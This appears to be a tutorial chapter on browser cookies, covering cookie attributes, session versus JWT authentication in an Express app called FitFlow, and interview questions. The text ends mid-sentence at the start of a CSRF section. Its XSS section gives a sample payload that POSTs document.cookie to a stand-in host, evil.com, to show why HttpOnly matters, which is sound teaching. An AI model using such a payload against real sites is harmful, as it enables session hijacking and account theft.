








# Cookies

> **Cookies are one of the most misunderstood concepts in Web Development.**
>
> Many developers think cookies are used only for authentication, but in reality they are simply a browser storage mechanism defined by HTTP.

---

# Learning Objectives

After completing this chapter, you should be able to:

* Understand what Cookies are.
* Explain why Cookies were invented.
* Explain who creates Cookies.
* Explain who stores Cookies.
* Explain who sends Cookies.
* Understand the Cookie lifecycle.
* Understand Browser Cookie Storage.
* Connect Cookies with Sessions and JWT.
* Explain Cookies confidently in interviews.

---

# Before Learning Cookies

You already know:

```
HTTP is Stateless.
```

That means:

```
Request 1

↓

Server Processes

↓

Server Forgets

--------------------

Request 2

↓

Who are you?
```

Question:

**If the server forgets everything...**

How does Gmail remember you?

How does Instagram keep you logged in?

How does FitFlow know that you are still authenticated?

The answer is...

```
Cookies
```

---

# What is a Cookie?

## Interview Definition

> **A Cookie is a small piece of data stored by the browser at the request of the server. The browser automatically sends matching cookies with future HTTP requests to the same website.**

---

## Simple Definition

A Cookie is nothing more than

```
Key

↓

Value
```

Example

```text
accessToken = eyJhbGc...
```

or

```text
theme = dark
```

or

```text
language = english
```

A Cookie is simply data.

Nothing magical.

---

# Common Misconception

Many beginners think

```
Cookie

↓

Authentication
```

❌ Wrong.

Cookies are **not** authentication.

Cookies are only **storage**.

They can store

* JWT
* Session ID
* Language
* Theme
* Shopping Cart ID
* User Preferences

Authentication is a **use case**, not the purpose of Cookies.

---

# Why Were Cookies Invented?

Let's revisit HTTP.

Suppose you login.

```
POST /login
```

The server verifies your password.

Response:

```
200 OK
```

Finished.

Now you open

```
GET /profile
```

Question:

How does the server know that this request comes from the same user?

HTTP doesn't remember.

The browser doesn't automatically remember.

Something has to carry user identity.

Cookies solve this problem.

---

# Cookie Lifecycle

This is the most important diagram.



Remember:

The server sends the cookie **only once**.

After that,

the browser automatically sends it.

---

# Cookie Flow Explained

## Step 1

User logs in.

```
POST /login
```

---

## Step 2

Server authenticates the user.

```
Email

Password

↓

Correct
```

---

## Step 3

Server responds

```http
HTTP/1.1 200 OK

Set-Cookie:

accessToken=abc123
```

Notice

Server sends

```
Set-Cookie
```

NOT

```
Cookie
```

---

## Step 4

Browser receives

```
Set-Cookie
```

Question

Who stores the cookie?

```
Browser
```

NOT React.

NOT Express.

NOT JavaScript.

The Browser.

---

## Step 5

Later

User requests

```
GET /profile
```

Before sending the request,

the browser checks

```
Do I have a cookie for this domain?
```

If yes,

the browser automatically sends

```http
Cookie:

accessToken=abc123
```

Notice

React never manually adds this.

The browser does.

---

# Browser Cookie Storage

Many developers think

```
React

↓

Stores Cookie
```

Wrong.

The browser has an internal cookie storage.



The browser manages everything.

---

# Browser Responsibilities

The browser is responsible for

* Storing cookies
* Sending cookies
* Matching cookies with domains
* Expiring cookies
* Applying HttpOnly
* Applying Secure
* Applying SameSite

The browser is much smarter than many developers realize.

---

# Browser Internal Thinking

Imagine the browser receives

```http
Set-Cookie:

accessToken=abc123
```

Internally,

the browser thinks

```text
Cookie Name

↓

accessToken

----------------

Value

↓

abc123

----------------

Domain

↓

fitflow.com

----------------

Rules

↓

HttpOnly

Secure

SameSite

Expiry
```

The browser stores all of this.

---

# Complete Browser Flow


---

# FitFlow Example

Login Controller

```javascript
res.cookie("accessToken",token,{
    httpOnly:true,
    secure:true,
    sameSite:"Strict"
});
```

This does **not** send a Cookie.

It sends

```
Set-Cookie
```

The browser stores it.

Later

Browser automatically sends

```
Cookie
```

to

```
/profile

/history

/exercises
```

Every matching request.

---

# Cookie Does NOT Mean Login

Remember

These are also valid cookies.

```text
theme=dark
```

```text
language=en
```

```text
cartId=123
```

Authentication is only one application of Cookies.

---

# Security Perspective

An Application Security Engineer immediately asks:

* Who created this cookie?
* Is it HttpOnly?
* Is it Secure?
* Which domain owns it?
* When does it expire?
* Can JavaScript read it?
* Can another website use it?

These questions are more important than simply asking

"Is a cookie present?"

---

# Common Mistakes

❌ Cookies are authentication.

No.

Cookies are storage.

---

❌ React stores cookies.

No.

The Browser stores cookies.

---

❌ JavaScript automatically sends cookies.

No.

The Browser automatically sends cookies.

---

❌ The server stores cookies.

No.

The browser stores cookies.

---

# Interview Questions

## Q1

What is a Cookie?

A small piece of data stored by the browser at the request of the server.

---

## Q2

Who creates a Cookie?

The Server.

---

## Q3

Who stores the Cookie?

The Browser.

---

## Q4

Who sends the Cookie on future requests?

The Browser.

---

## Q5

Are Cookies only used for authentication?

No.

They can store any small piece of information such as preferences, language, session IDs, JWTs, or shopping cart identifiers.

---

# Revision Summary

✔ Cookies are Browser Storage.

✔ Server creates Cookies using **Set-Cookie**.

✔ Browser stores Cookies.

✔ Browser automatically sends **Cookie** headers.

✔ Cookies are not Authentication.

✔ Cookies can store Session IDs, JWTs, themes, languages, and more.

✔ The browser—not React or Express—manages the cookie lifecycle.

---

# Hands-on Exercise

1. Open your **FitFlow** application.
2. Press **F12 → Application → Storage → Cookies**.
3. Find your authentication cookie.
4. Answer these questions:

   * What is its name?
   * Which domain owns it?
   * What is its value?
   * Does it have `HttpOnly`?
   * Does it have `Secure`?
   * What is its expiration time?

Understanding these properties is the foundation for the next part, where we'll study **Cookie Attributes** (`HttpOnly`, `Secure`, `SameSite`, `Path`, `Domain`, and `Max-Age`) in detail.

# Cookie Attributes

So far, we learned:

```text
Server

↓

Set-Cookie

↓

Browser Stores Cookie

↓

Browser Sends Cookie
```

But one question remains.

**How does the browser know what rules to follow?**

The answer is...

**Cookie Attributes**

Attributes tell the browser **how to store and use a cookie**.

---

# What are Cookie Attributes?

## Interview Definition

> Cookie Attributes are additional rules attached to a cookie that control how, when, and where the browser stores and sends that cookie.

Example:

```http
Set-Cookie:
accessToken=abc123;
HttpOnly;
Secure;
SameSite=Strict;
Path=/;
Max-Age=3600
```

Notice:

The actual cookie is

```text
accessToken=abc123
```

Everything else is a rule.

---

# Complete Cookie Structure



---

# HttpOnly

This is probably the most important cookie attribute.

## Definition

> HttpOnly prevents JavaScript from reading the cookie.

Example

```http
Set-Cookie:

accessToken=abc123;

HttpOnly
```

---

## Browser Thinking

Browser stores

```text
Cookie

↓

HttpOnly = TRUE
```

Later JavaScript executes

```javascript
document.cookie
```

Browser checks

```text
Is HttpOnly?

↓

YES

↓

Block Access
```

JavaScript receives

```
Nothing
```

---

## Mermaid



---

# Why HttpOnly Exists

Imagine an attacker successfully injects

```javascript
alert(document.cookie)
```

Without HttpOnly

The attacker steals

```
JWT

Session ID

Authentication Cookie
```

With HttpOnly

The browser blocks JavaScript.

The attacker cannot read the cookie.

---

# Important

HttpOnly

DOES NOT mean

```
Don't send Cookie
```

Instead

It means

```
Don't allow JavaScript

to READ Cookie
```

Browser still sends it automatically.

---

## Example

Browser has

```
accessToken=abc123
```

JavaScript

```javascript
document.cookie
```

Browser

```
Blocked
```

---

Browser sends

```http
GET /profile

Cookie:

accessToken=abc123
```

Browser

```
Allowed
```

Huge difference.

---

# Secure

## Definition

> Secure tells the browser to send the cookie only over HTTPS.

Example

```http
Set-Cookie:

accessToken=abc123;

Secure
```

---

Browser thinks

```
Current Connection

↓

HTTPS?

↓

YES

↓

Send Cookie
```

---

If

```
HTTP
```

Browser says

```
Do NOT send Cookie
```

---

## Mermaid



---

# Why Secure Exists

Without Secure

An attacker on the same network

could intercept HTTP traffic.

Sensitive cookies might be exposed.

Secure helps prevent this by ensuring cookies are only transmitted over encrypted HTTPS connections.

---

# SameSite

This is one of the most misunderstood attributes.

Definition

> SameSite controls whether the browser sends cookies on cross-site requests.

Simply put

It protects against CSRF attacks.

---

Example

```http
Set-Cookie:

accessToken=abc123;

SameSite=Strict
```

---

Browser Thinking

Question

```
Is this request coming

from the same website?
```

If

YES

↓

Send Cookie

If

NO

↓

Maybe Don't Send Cookie

Depending on SameSite.

---

# SameSite Modes

## Strict

Most secure.

Browser only sends cookies

when the request originates from the same site.

---

## Lax

Default in modern browsers.

Allows cookies for normal navigation,

blocks many cross-site requests.

---

## None

Browser always sends the cookie.

Must also include

```
Secure
```

Otherwise modern browsers reject it.

---

# Comparison

| Attribute | Purpose                      |
| --------- | ---------------------------- |
| HttpOnly  | Blocks JavaScript access     |
| Secure    | HTTPS Only                   |
| SameSite  | Controls Cross-Site Requests |

---

# Path

Example

```http
Path=/
```

Purpose

Specifies which URLs can receive the cookie.

Example

```
Path=/admin
```

Cookie sent only to

```
/admin/*
```

Not

```
/profile
```

---

# Domain

Example

```http
Domain=fitflow.com
```

Defines which domain owns the cookie.

Browser will not send

```
fitflow.com
```

cookies to

```
google.com
```

---

# Max-Age

Example

```http
Max-Age=3600
```

Meaning

Cookie expires after

```
3600 seconds
```

---

# Expires

Instead of seconds,

specifies an exact date.

Example

```http
Expires=Wed, 25 Dec 2026 10:00:00 GMT
```

---

# Browser Internal Storage

Imagine the browser stores

```text
Name

↓

accessToken

-----------------

Value

↓

abc123

-----------------

HttpOnly

↓

TRUE

-----------------

Secure

↓

TRUE

-----------------

SameSite

↓

Strict

-----------------

Domain

↓

fitflow.com

-----------------

Path

↓

/

-----------------

Expiry

↓

Tomorrow
```

Every request,

the browser checks all these rules

before sending the cookie.

---

# Express Example

```javascript
res.cookie("accessToken",token,{

httpOnly:true,

secure:true,

sameSite:"Strict",

maxAge:86400000

});
```

Express converts this into

```http
Set-Cookie:

accessToken=...

HttpOnly

Secure

SameSite=Strict

Max-Age=86400
```

---

# FitFlow Example

Your login controller

```javascript
res.cookie("accessToken",token,{
    httpOnly:true,
    secure:true,
    sameSite:"Strict"
});
```

The browser stores

* Cookie
* Domain
* Rules

When

```http
GET /profile
```

Browser automatically checks

* HTTPS?
* Same Domain?
* SameSite?
* Expired?
* Path?

Only then

it decides

whether to send the cookie.

---

# Security Perspective

Application Security Engineers inspect:

✔ HttpOnly

✔ Secure

✔ SameSite

✔ Expiry

✔ Domain

✔ Path

Misconfigured cookie attributes can lead to:

* Session Theft
* CSRF
* Information Disclosure
* Session Fixation

---

# Common Mistakes

❌ HttpOnly prevents cookies from being sent.

Wrong.

It prevents JavaScript from reading them.

---

❌ Secure encrypts cookies.

Wrong.

TLS encrypts communication.

Secure only tells the browser to send the cookie over HTTPS.

---

❌ SameSite encrypts cookies.

Wrong.

SameSite controls cross-site cookie behavior.

---

# Interview Questions

## Q1

What does HttpOnly do?

Prevents JavaScript from reading cookies.

---

## Q2

Who enforces HttpOnly?

The Browser.

---

## Q3

What does Secure do?

Only sends cookies over HTTPS.

---

## Q4

Why was SameSite introduced?

To reduce the risk of CSRF attacks.

---

## Q5

Can HttpOnly stop CSRF?

No.

HttpOnly prevents reading cookies.

It does not stop the browser from sending cookies.

---

# Revision Notes

✔ HttpOnly → No JavaScript Access

✔ Secure → HTTPS Only

✔ SameSite → Cross-Site Protection

✔ Path → URL Restriction

✔ Domain → Domain Restriction

✔ Max-Age → Lifetime

✔ Browser enforces every cookie rule.

# Cookies with Sessions and JWT

So far you know:

- HTTP is Stateless.
- Browser stores Cookies.
- Server creates Cookies.
- Browser automatically sends Cookies.

Now let's answer the biggest question.

> **What exactly is stored inside a Cookie?**

Answer:

Anything small.

Most commonly:

- Session ID
- JWT
- User Preferences
- Language
- Shopping Cart ID

A cookie is **only storage**.

---

# Authentication Using Sessions

Let's understand the complete flow.

## Step 1

User logs in.

```http
POST /login
```

Browser sends

```json
{
   "email":"aditya@gmail.com",
   "password":"password123"
}
```

---

## Step 2

Express verifies credentials.

```javascript
const user = await User.findOne({email});

bcrypt.compare(password,user.password);
```

Credentials are correct.

---

## Step 3

Server creates a Session.

Imagine

```text
Session ID

↓

ABC123
```

Server stores

```text
ABC123

↓

User Id

↓

Role

↓

Permissions

↓

Login Time
```

Notice

The server stores everything.

---

## Step 4

Server responds

```http
Set-Cookie:

sessionId=ABC123
```

---

## Step 5

Browser stores

```text
sessionId=ABC123
```

---

## Step 6

Next request

```http
GET /profile
```

Browser automatically sends

```http
Cookie:

sessionId=ABC123
```

---

## Step 7

Express receives

```text
ABC123
```

Looks inside Session Store.

Finds

```text
User

↓

Aditya
```

User authenticated.

---

# Session Authentication Diagram



---

# Authentication Using JWT

JWT works differently.

Server stores almost nothing.

---

## Step 1

User logs in.

```http
POST /login
```

---

## Step 2

Express verifies password.

---

## Step 3

Generate JWT.

Example

```javascript
const token = jwt.sign(
{
    id:user._id
},
SECRET_KEY
);
```

---

## Step 4

Server sends

```http
Set-Cookie:

accessToken=<JWT>
```

---

## Step 5

Browser stores JWT.

---

## Step 6

Future request

```http
GET /profile
```

Browser automatically sends

```http
Cookie:

accessToken=<JWT>
```

---

## Step 7

Express verifies JWT.

```javascript
jwt.verify(token,SECRET_KEY);
```

If valid

↓

User authenticated.

---

# JWT Authentication Diagram



---

# Sessions vs JWT

## Sessions

Browser stores

```text
Session ID
```

Server stores

```text
Everything
```

---

## JWT

Browser stores

```text
JWT
```

Server stores

```text
Nothing related to session state
```

Only verifies the JWT.

---

# Browser Internals

Suppose Browser has

```text
accessToken=abc123
```

User opens

```text
https://fitflow.com/profile
```

Browser internally asks

```
Does cookie belong to this domain?

↓

YES

HTTPS?

↓

YES

Expired?

↓

NO

SameSite OK?

↓

YES

Path Matches?

↓

YES

Attach Cookie
```

Browser automatically creates

```http
Cookie:

accessToken=abc123
```

Developer never writes this manually.

---

# Complete Browser Decision Flow

```mermaid
flowchart TD

Request

↓

Cookie Exists?

↓

No --> Send Request

↓

Yes

↓

Correct Domain?

↓

HTTPS?

↓

Expired?

↓

SameSite Passed?

↓

Path Matches?

↓

Attach Cookie

↓

Send HTTP Request
```

---

# Chrome DevTools

Open

```
F12

↓

Application

↓

Storage

↓

Cookies
```

You can inspect

- Cookie Name
- Value
- Domain
- Path
- HttpOnly
- Secure
- SameSite
- Expiration

---

Network Tab

```
F12

↓

Network

↓

Login Request

↓

Response Headers
```

See

```http
Set-Cookie
```

Refresh page.

Open

```
/profile
```

Now check

Request Headers.

You will see

```http
Cookie:

accessToken=...
```

Now you've seen both headers in action.

---

# Express Example

Setting Cookie

```javascript
res.cookie("accessToken",token,{
    httpOnly:true,
    secure:true,
    sameSite:"Strict"
});
```

Reading Cookie

```javascript
app.get("/profile",(req,res)=>{

console.log(req.cookies);

});
```

Notice

Express reads

```javascript
req.cookies
```

because the browser automatically sent

```http
Cookie:
```

---

# FitFlow Authentication Flow


---

# Cookie Lifetime

Cookies are not always permanent.

Two common types:

## Session Cookie

No expiration.

Deleted when browser closes.

---

## Persistent Cookie

Has

```text
Max-Age

or

Expires
```

Browser keeps it until expiry.

---

# Can Multiple Cookies Exist?

Yes.

Example

```http
Cookie:

accessToken=...

refreshToken=...

theme=dark

language=en
```

Browser automatically sends all matching cookies.

---

# Security Perspective

An Application Security Engineer checks:

✔ Is JWT inside HttpOnly Cookie?

✔ Is Secure enabled?

✔ Is SameSite configured?

✔ Is refresh token protected?

✔ Does logout clear cookies?

✔ Can cookies be stolen?

Authentication security is heavily dependent on proper cookie configuration.

---

# Common Mistakes

❌ JWT replaces Cookies.

Wrong.

JWT is data.

Cookies are storage.

JWT can be stored inside a Cookie.

---

❌ Sessions require JavaScript.

Wrong.

Browser automatically handles Session Cookies.

---

❌ Browser sends every cookie.

Wrong.

Browser only sends cookies that satisfy:

- Domain
- Path
- Secure
- SameSite
- Expiry

---

# Interview Questions

## Q1

What does a Session Cookie usually contain?

A Session ID.

---

## Q2

What does a JWT Cookie usually contain?

A signed JWT.

---

## Q3

Who verifies a JWT?

The Server.

---

## Q4

Can multiple cookies exist?

Yes.

The browser can store many cookies for the same website.

---

## Q5

Does React manually attach cookies?

No.

The browser automatically attaches matching cookies.


# Cookies and Security Attacks

Now that you understand how cookies work, let's see how attackers try to abuse them.

As an Application Security Engineer, this is where your thinking changes.

Instead of asking

> "How do cookies work?"

you ask

> "How can cookies be attacked?"

---

# Attack 1 - XSS (Cross Site Scripting)

Imagine an attacker injects JavaScript into your website.

```javascript
alert(document.cookie);
```

or

```javascript
fetch("https://evil.com",{
    method:"POST",
    body:document.cookie
});
```

Question

What is the attacker trying to steal?

The answer:

Authentication Cookies.

---

# Without HttpOnly

Browser stores

```
accessToken=abc123
```

Attacker executes

```javascript
document.cookie
```

Browser returns

```
accessToken=abc123
```

Attacker steals it.

---

# With HttpOnly

Browser stores

```
accessToken=abc123
HttpOnly
```

Attacker executes

```javascript
document.cookie
```

Browser says

```
Blocked
```

Because HttpOnly prevents JavaScript from reading cookies.

---

## Important

HttpOnly does **NOT** stop the browser from sending the cookie.

The browser still sends

```http
Cookie:
accessToken=abc123
```

to FitFlow.

It only blocks JavaScript access.

---

# XSS Diagram



---

# Attack 2 - CSRF (Cross-Site Request Forgery)

Suppose you are logged into

```
